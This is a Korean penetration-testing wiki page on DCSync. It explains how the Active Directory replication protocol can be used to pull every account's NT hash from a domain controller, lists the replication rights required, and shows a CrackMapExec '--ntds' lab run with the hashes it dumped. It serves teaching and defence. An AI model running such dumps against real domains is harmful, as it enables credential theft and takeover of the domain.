

# DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.


## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410


